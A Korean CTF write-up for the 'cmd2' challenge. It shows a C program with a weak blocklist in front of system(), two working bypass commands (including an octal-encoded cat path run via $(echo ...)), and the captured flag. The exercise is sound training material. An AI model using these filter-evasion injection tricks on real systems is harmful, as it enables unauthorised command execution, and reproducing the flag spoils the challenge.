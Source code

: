 # cmd2

## cmd2.c

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

이번엔 필터링이 `cmd1`보다 많아졌다. 여러가지 풀이 방법이 있는데, 두 가지 방법으로 풀어볼 것이다.

첫번째 방법은 `command`라는 명령어를 이용하는 것이다. 아래는 `command` 명령어의 도움말이다.

```bash
cmd2@ubuntu:~$ help command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.
    
    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.
    
    Options:
      -p	use a default value for PATH that is guaranteed to find all of
    	the standard utilities
      -v	print a description of COMMAND similar to the `type' builtin
      -V	print a more verbose description of each COMMAND
    
    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```

`cat`을 필터링 하지는 않으니 위 명령어를 통해 아래와 같이 읽으면 된다.

    ./cmd2 "command -p cat f*"

두번째 방법은 `$()`를 이용하는 것이다. `$()`의 결과를 명령어 문자열로 인식하는데, `echo`를 이용해 아스키 코드로 출력하면 된다.

```python
>>> str1 = '/bin/cat /home/cmd2/f*'
>>> for i in str1:
...     print('\\' + str(oct(ord(i))).replace('0o',''),end='')
... 
\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\143\155\144\62\57\146\52>>> 
```

```bash
cmd2@ubuntu:~$ ./cmd2 '$(echo "\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\143\155\144\62\57\146\52")'
$(echo "\57\142\151\156\57\143\141\164\40\57\150\157\155\145\57\143\155\144\62\57\146\52")
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@ubuntu:~$ 
```

`bash`의 `echo`와 `sh`의 `echo`가 조금 달라서 애먹었다..